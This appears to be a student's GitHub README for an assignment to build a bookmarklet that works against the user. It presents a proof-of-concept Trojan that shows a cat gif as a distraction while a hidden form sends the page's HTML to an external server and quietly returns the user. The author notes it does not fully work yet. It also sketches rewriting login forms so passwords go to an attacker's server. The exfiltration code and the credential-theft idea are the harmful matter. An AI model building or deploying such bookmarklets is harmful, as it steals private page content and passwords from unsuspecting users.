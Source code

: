 # Assignment 2: Bookmarklet
Make a bookmarklet that works against the user.

I wanted to try creating a proof of concept for a malicious bookmarklet, that gathers up the data on the page and sends is to an external server.  I'll package it up with a cute distraction, to make it a very simple variation on the classic Trojan Horse (inspired by [Bonzi Buddy](http://malware.wikia.com/wiki/BonziBUDDY)) 

So our bookmarklet can start out by adding a cute cat gif to the page, "improving" the browsing experience.

The simplest way to do this would be

    $.post(externalUrl, $('body').html,
	     function(data){
		     alert("im in ur webnets, stealin ur data");
     });
But we'll quickly run into complications related to CORS which we can't easily solve.

Instead, I tried using a more traditional HTML form that POSTS to an external URL.

    $('body').append("<form id='evil' action='"+url+"' method='post'>
    <input name='bodyHtml' type='hidden' value='"+bodyHtml+"'>
    <input name='redirectUrl' type='hidden' value='testurl'>
    <input type='submit'>
    </form>");
The submit button is not really necessary but is useful for debugging.

This creates an HTML form with the current page's contents as a hidden input field. It also puts the current URL as one of the fields, so our malicious server knows where to send the user back to after ingesting the stolen data, so that the user may not even notice that they've left their intended page, visited a malicious server, and gone back to where they started. Because we're using a traditional HTML form, we will need to actually leave the current page when we POST the data. But we can cover that up easy enough...

After a delay, we can then submit the form

    $('#evil').submit();

 
This is not entirely functional yet, I think I am running into trouble with escaping quote characters when setting the form input to the bodyHtml. Need to play around with some regex to do this better.

       function injectJquery(callback) {
      if (window.jQuery) {
        return callback(window.jQuery);
      }
      let script = document.createElement('script');
      script.setAttribute(
        'src',
        '//ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js'
      );
      script.onload = () => callback(window.jQuery);
      script.onerror = e => alert('The script failed to load: ' + e);
      document.head.appendChild(script);
    }
    
    var catGifs = ['http://www.catgifpage.com/gifs/325.gif','https://media.tenor.com/images/47b81948be5023555549c01d88ae3289/tenor.gif','https://memesbams.com/wp-content/uploads/2017/11/Hilarious-Cat-Gifs.gif']
    
    injectJquery(function($) {
      var catGif = catGifs[Math.floor(Math.random()*catGifs.length)];
      $('body').prepend("<img src='"+catGif+"'>");
      
      var url = "http://calebcalebcaleb.com/playback.php";
      // A good old fashioned Trojan Horse
      //Activating this bookmarklet will add a cute cat gif to the page. 
      //It will also exfiltrate the contents of the current page and send it to an external server.
      var bodyHtml = encodeURIComponent($('body').html());
      
      $('body').append("<form id='evil' action='"+url+"' method='POST'><input name='bodyHtml' type='hidden' value='"+bodyHtml+"'><input name='redirectUrl' type='hidden' value='"+url+"'><input type='submit'></form>");
      
    
      
      
    });

  
An alternative solution, similarly malicious but perhaps more elegant, would be to search for existing forms on the page (like a login form) and change its destination URL to a server I control. This would be less obtrusive/detectable for the user, and possibly be more efficient at swiping useful data (like passwords).

But I don't want to get too into making malicious software... the world doesn't need any more of that!
